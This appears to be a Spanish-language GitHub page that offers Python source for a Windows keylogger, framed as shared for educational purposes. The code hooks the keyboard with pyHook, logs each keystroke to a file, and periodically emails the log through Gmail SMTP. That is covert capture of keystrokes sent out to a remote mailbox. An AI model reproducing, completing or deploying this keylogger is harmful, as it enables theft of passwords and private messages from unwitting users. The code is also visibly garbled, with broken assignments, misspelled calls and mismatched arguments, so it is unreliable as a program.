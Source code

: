 # KEYLOGGER
Aquí os dejo un código de KeyLogger utilizando las librerias "pyHook" y "pyWin32" :9 (Este archivo está subido con fines educativos)



import pyHook, pythoncom, sys, logging, time, datetime

carpeta_destino= 'C:\Users\miniv\Desktop\Keylogger\Keylogger.txt'
segundos_espera= 7
timeout= time.time()= segundos_espera

def TimeOut():
    if time.time() > timeout:
        return True
    else:
        return False
    
def EnviarEmail():
    with open (carpeta_destino, 'r+') as f:
        fecha = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        data=f.readdata= data.replace('Space', ' ')
        data = data.replace('\n', '')
        data = 'Mensaje capturado a las: '+ fecha + '\n' + data
        print (data)
        crearEmail('', '', '')
        f.seek(0)
        f.truncate()


def crearEmail(user, passw, recp,subj, body):
    import smtplib
    mailUser=user
    mailPass=passw
    From = user
    To = recep
    Subject= subj
    Txt=body
    
    email = """\From: %S/nTo: %S\nSubject: %S\n\n%s """ % (From, ", ".join(To), Subject, Txt)

    try:
        server=smtplib-SMTP("smtp.gmail.com", 587)
        server.ehlo()
        server.startlist()
        server.login(mailUser, mailPass)
        server.sendmail(From, To, email)
        server.close()
        print('Correo enviado con éxito!!')

    except:
        print('Correo fallido :(')

def OnKeyboardEvent(event):
    logging.basicConfig(filename=carpeta_destino, level=logging.DEBUG, format='%(messages)')
    print('WindowsName:', event.WindowName)
    print('Window:', event.Window)
    print('Key:', event.Key)
    logging.log(10, event.Key)
    return True
    
hooks_manager = pyHook.HookManager()
hooks_manager.KeyDown= OnKeyboardEvent
hooks_manager.HookKeyboard()

while True:
    if TimeOut():
        EnviarEmail()
        timeout= time.time()+ segundos_espera

    pythoncom.PumpWaitingMessages()
